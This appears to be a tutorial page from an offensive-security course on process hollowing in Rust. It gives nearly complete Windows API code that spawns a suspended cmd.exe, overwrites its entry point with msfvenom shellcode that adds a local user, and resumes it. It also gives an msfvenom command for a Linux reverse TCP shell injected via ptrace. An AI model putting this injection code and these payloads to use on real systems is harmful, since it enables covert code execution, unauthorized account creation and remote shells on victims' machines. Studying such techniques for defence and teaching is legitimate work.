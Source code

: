 +++
title = "Process Hollowing"
weight = 3
+++

This technique involves creating a process, putting it in a suspended state, and replacing the code at the process entry point with shellcode. In our example, we create a local user on the targeted machine (Windows) and launch a reverse shell in the case of our Linux program. The code will be generated by msfvenom `msfvenom -p windows/x64/exec CMD="net user /add kev_user" -f rust and msfvenom -p linux/x64/shell_reverse_tcp -f rust LHOST=192.168.1.10 LPORT=4444`. To help you understand, here is a diagram:

![process1.png](../process1.png)

## Windows Program
To develop this program, we once again rely on the Windows API with the associated documentation we have already covered in previous sections. After creating a new project with `cargo new`, you can populate your Cargo.toml with these dependencies:

- `anyhow` = `1.0.79`
- `colored` = `2.1.0`
- `windows` = `{version = "0.52.0", features = ["Wdk_System_Threading", "Win32_Foundation", "Win32_Security", "Win32_System_Diagnostics_Debug", "Win32_System_Kernel", "Win32_System_Threading"]}`

In your main.rs, you can declare the crates as follows:
```rust
use anyhow::{anyhow, Ok, Result};
use colored::*;
use core::ffi::c_void;
use std::ptr;
use std::{thread, time};
use windows::core::{PCSTR, PSTR};
use windows::Wdk::System::Threading::{NtQueryInformationProcess, PROCESSINFOCLASS};
use windows::Win32::System::Diagnostics::Debug::{ReadProcessMemory, WriteProcessMemory};
use windows::Win32::System::Threading::{
    CreateProcessA, ResumeThread, CREATE_SUSPENDED, PROCESS_BASIC_INFORMATION, PROCESS_INFORMATION,
    STARTUPINFOA,
};
```

Summary of Actions Performed by Our Program:

- Create a process with `CreateProcessA`, which can be a cmd, notepad, or anything else. Its state will be set to "suspended" while we make our modifications.
- Create a handle on this process and retrieve information, with `NtQueryInformationProcess`, such as the base address of the `Process Environment Block` (PEB). This element contains information like data structures, process startup parameters, and the base address of the program image.
- Read the process memory with `ReadProcessMemory`, verify the conformity of our executable via its magic bytes (MZ in our case), and retrieve data such as header addresses and the entry point (actual starting address of program execution).
- Modify the data in the process memory via `WriteProcessMemory` with our shellcode.
- Continue program execution after modification via `ResumeThread`.

Within the code, we also add the shellcode, check for errors at each key point using the anyhow crate, include sleeps to allow time to see the execution of each part one after another, and return an `Ok(())` to indicate that the program executed successfully. Prints of each execution part have been added for the lesson, but they can obviously be removed.

## Code Details
Our shellcode will be contained in the variable 'shellcode' as a byte array. A variable to hold program information will be declared as type `PROCESS_INFORMATION`. Finally, the created suspended process will be indicated as a pointer. An "unsafe" block will be necessary to use most Windows API functions, including our `CreateProcessA`:

```rust
let mut process_info = PROCESS_INFORMATION::default();
let program_called = PSTR::from_raw("C:\\Windows\\System32\\cmd.exe".to_string().as_mut_ptr());

if unsafe {
    CreateProcessA(
        PCSTR::null(),
        program_called,
        None,
        None,
        false,
        CREATE_SUSPENDED,
        None,
        PCSTR::null(),
        &STARTUPINFOA::default(),
        &mut process_info,
    )
}
```

We then define a handle on our process, a structure to store its information `PROCESS_BASIC_INFORMATION`, and query the process:

```rust
let process_handle = process_info.hProcess; 
let mut basic_info = PROCESS_BASIC_INFORMATION::default();

if unsafe {
    NtQueryInformationProcess(
        process_handle,
        PROCESSINFOCLASS::default(),
        &mut basic_info as *mut _ as *mut c_void,
        8 * 6,
        &mut 0_u32,
    )
}
```

We retrieve the image address (the program's entry point), create a buffer to store it, and call `ReadProcessMemory`:

```rust
let image_base_address = basic_info.PebBaseAddress as u64 + 0x10; 
let mut address_buffer = [0u8; 1];

if unsafe {
    ReadProcessMemory(
        process_handle,
        image_base_address as *const c_void,
        address_buffer.as_mut_ptr() as *mut c_void,
        8,
        None,
    )
}
```

A second `ReadProcessMemory` is called to retrieve the DOS headers to verify our program's integrity:

```rust
let mut header_buffer = [0_u8; 0x200];
let header_pointer = header_buffer.as_mut_ptr() as usize;
let pe_base_address = unsafe { ptr::read(address_buffer.as_ptr() as *const usize) };

if unsafe {
    ReadProcessMemory(
        process_handle,
        pe_base_address as *const c_void,
        header_buffer.as_mut_ptr() as *mut c_void,
        0x200,
        None,
    )
}
```

The final step follows, we retrieve the program header address and its entry point, then write our shellcode into memory with `WriteProcessMemory` and resume execution:

```rust
let e_lfanew = unsafe { ptr::read((header_pointer + 0x3C) as *const u32) };

let opthdr_offset = e_lfanew as usize + 0x28; 
let entry_point = unsafe { ptr::read((header_pointer + opthdr_offset) as *const u32) };
let entry_point_address = entry_point as usize + pe_base_address;

if unsafe {
    WriteProcessMemory(
        process_handle,
        entry_point_address as *const c_void,
        shellcode.as_ptr() as *const c_void,
        shellcode.len(),
        None,
    )
}
let resume = unsafe { ResumeThread(process_info.hThread) };

if resume != 1 {
    return Err(anyhow!(
        "{}",
        "[-] Could not resume the suspended cmd.exe's execution".red()
    ));
}
Ok(())
```

Once the code is compiled with cross, we can execute it, as shown in the following image, where the user kev_user has been successfully added to the local users of the machine:

![process2.png](../process2.png)

You can find the full code in the next section.

## Linux Program
Regarding the Linux program, it is much simpler. The following crates should be imported into your Cargo.toml:

- `colored` = `2.1.0`
- `nix` = `{ version = "0.27.1", features = ["ptrace"] }`

In the main.rs, you can declare the following dependencies:
```rust
use colored::*;
use nix::sys::ptrace::{detach, getregs, traceme, write};
use nix::sys::wait::waitpid;
use nix::unistd::{execv, fork, ForkResult};
use std::ffi::{c_void, CStr, CString};
use std::{thread, time};
```

First, we declare our shellcode with the variable `let shellcode: [u8; X]` where `X` represents the number of bytes in the shellcode. We used the following command to generate our shellcode: `msfvenom -p linux/x64/shell_reverse_tcp -f rust LHOST=192.168.1.10 LPORT=4444`, which is a simple reverse TCP shell. 
Our program will consist of a large block of code composed of a `match unsafe { fork() }`. This function is responsible for creating a child process by duplicating the parent process. We then use this process creation via a `ForkResult` which will contain information about the child and parent processes if the `fork()` was successful.
The child process must be set as "traceable" to make the necessary modifications for shellcode injection. An executable is then defined (`/usr/bin/bash` in our case) and will replace our current process via an `execve()`. We then focus on the parent process, pausing the child process via `waitpid()` and retrieving its RIP register. This is where the shellcode will be injected. We then resume the execution of the child process via detach(). Sleeps have been integrated to allow easier observation of the attack progression. After execution, we successfully get a shell on the remote machine:

![process3.png](../process3.png)

The corresponding code is available in the next section.
